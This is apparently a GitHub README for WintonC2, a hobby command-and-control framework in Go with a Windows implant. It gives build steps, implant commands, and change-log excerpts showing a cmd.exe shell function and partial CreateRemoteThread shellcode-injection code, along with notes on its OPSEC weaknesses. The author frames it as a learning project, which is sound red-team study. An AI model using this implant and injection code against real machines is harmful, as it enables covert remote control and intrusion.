 ![Winton](https://i.imgur.com/Pmrv5t7.png)

<h1 align="center">WintonC2</h1>

_Yet another Command and Control (C2) framework written in Go_

I wrote this to learn more about C2 internals, OPSEC considerations in beacon and to learn Golang _(i still can't get function imports to work)_.


## Features
### Teamserver
> Written in Golang 1.21.1 (tested on Windows/AMD64)
- Support for multiple listeners, but only HTTP is implemented
- Multiple agents & asynchronous callbacks
- Todo: HTTPS listener, authentication & internal API for operator interaction 

### Implant
> Written in Golang 1.21.1 (tested on Windows/AMD64) 
- Built-ins are implemented via the Golang standard library, may spawn cmd.exe
- Supported commands: `ls`, `whoami`, `pwd`, `shell`, `ps`, `getpid`, `inject`
- Process Injection via `CreateRemoteThread`
  
![WintonC2](https://i.gyazo.com/e10bcbdd23217af2032ba1de39639ed5.png)

### Client
> Written in Python 3.9+ 
- Communicates directly with the `teamserver`

## Compilation
The `teamserver` compiles to a single golang binary:
```bash
cd ./teamserver && make 
cd ./bin && ./teamserver <ip> <port> <password>
```

The Go agent `Wonton` is compiled to a single golang binary:
```bash
cd './implan/Wonton (GO)\' && make
cd ./bin && ./winton-win64.exe
```

The C agent `Wanton` has a MSVC solution file, compile the solution in `Release` mode (not really maintained, probably broken):
```bash
gcc -Wall -std=c99 -o Wanton.exe Commands.c Main.c Utils.c -lcurl
```
_A Makefile is not provided because I am lazy_

## Change Log

#### 24/11/2023 - Shellcode Injection via CreateRemoteThread (Session Passing)
- 2 new commands: `ps` and `inject`
    - `ps` lists all running processes on the target as well as their PID, PPID, Name, Arch, Session & User.
        - `Usage: ps`
![24/11/2023](https://i.imgur.com/GAYSs0m.png)
    - `inject` injects shellcode into a running process via `CreateRemoteThread`
![24/11/2023](https://i.imgur.com/H7OD72D.png)
        - `Usage: inject <pid> <path_to_binfile>`
        - `Example: inject 17952 ../shellcode/calc/calc.bin`
        - The shellcode is loaded from a file, and is base64 encoded before being sent to the target.
        - The shellcode is then decoded and injected into the target process via `CreateRemoteThread`
        ```go
        var kernel32 = windows.NewLazySystemDLL("kernel32.dll")

        var (
            virtualAllocEx      = kernel32.NewProc("VirtualAllocEx")
            writeProcessMemory  = kernel32.NewProc("WriteProcessMemory")
            createRemoteThread  = kernel32.NewProc("CreateRemoteThread")
            WaitForSingleObject = kernel32.NewProc("WaitForSingleObject")
            closeHandle         = kernel32.NewProc("CloseHandle")
        )
        ...
        process_handle, err := windows.OpenProcess(..., uint32(pid), ...)
        ...
        addr, _, err := virtualAllocEx.Call(..., uintptr(len(shellcode)), ..., windows.PAGE_EXECUTE_READWRITE) // BAD
        ...
        _, _, err := writeProcessMemory.Call(..., addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
        ...
        thread_handle, _, err := createRemoteThread.Call(uintptr(process_handle), 0,  0, addr, 0, 0, 0)

        closeHandle.Call(uintptr(thread_handle))
        closeHandle.Call(uintptr(process_handle))
        ```
    - OPSEC considerations (why this is a budget injection):
        - `VirtualAllocEx` is called with PAGE_EXECUTE_READWRITE
        - Unbacked memory allocation 
        - Thread start address is 0x0 

- `./shellcode/calc/calc.bin` is x64 shellcode that spawns calc.exe ~ [_thanks boku7_](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode/blob/main/win-x64-DynamicKernelWinExecCalc.asm)
- `./shellcode/beacon/winton-win64.bin` is x64 shellcode that spawns a new beacon ~ [_thanks donut_](https://github.com/TheWover/donut) -
    - generated using [exe2_csh](https://github.com/gatariee/exe2c_sh) 
    - `./exe2sh.py -i winton-win64.exe -o ./shellcode/beacon/winton-win64.bin`

#### 15/11/2023 - Mass codebase refactoring & implementation of shell commands 
- The codebase has been refactored to be more modular and easier to read, (teamserver & go implant)
    - Doesn't exactly follow Go best practices, but it's certainly better than before. 
- The `teamserver` and `implant (go)` now have Makefiles and support for cross-compilation, see [here](./implant/Wonton%20(GO)/Makefile) and [here](./teamserver/Makefile) for more info.
- Added support for `shell` commands in beacon
    - Spawns `cmd.exe /c {task}`, not opsec safe.
```go
func shell(command string) (string, error) {
cmd := exec.Command("cmd.exe", "/c", command)
stdout, err := cmd.Output()
if err != nil {
    return "", err
}
return string(stdout), nil
}
```
![15/11/2023](https://i.imgur.com/JVeojRf.png)

#### 12/11/2023 - Wanton has a better (and much bigger) brother implant! (Wonton)
- The [new implant](./implant/Wonton%20(GO)/) is written in Go.
- Although this was much more convenient to write, Golang binaries have the downside being much larger than C binaries.
    - The C implant is 75KB, the Go implant is 7,165KB.
- The Go implant is also much more stable than the C implant, and has more features.
    - The C implant will be removed in the future.
- Currently has support for 2 commands: `whoami` and `ls`
![12/11/2023](https://i.imgur.com/ZkIaKIw.png)
![12/11/2023](https://i.imgur.com/lcZvWN7.png)

#### 10/11/2023 - Winton now has an agent for Windows! (Wanton)
- The agent is written in C and is extremely unstable! :D, and barely functional.
    - This implant will probably be abandoned cos I hate parsing JSON in C, but this was a nice WinAPI sanity check.
- Currently only has support for `pwd`, but more commands will be added eventually.
    ![10/11/2023](https://i.imgur.com/D2nVffY.png)
#### 9/11/2023 - Beacons can now go offline!
- If the callback from the last beacon is over `Agent.Sleep + 5` seconds, the beacon will be marked as down (_but should still listening for callbacks_).
   - In its current state, the agent gets completely removed from the `AgentList[]` and `AgentCallbacks[]` if it goes offline, this will be changed in the future to allow for offline agents to still be in the list.
    ![9/11/2023](https://i.imgur.com/CZm1eGe.png)
- The change of beacon state is also reflected in the `AgentList[]` and `AgentCallbacks[]` tables
    ![9/11/2023](https://i.imgur.com/p87EHej.png)
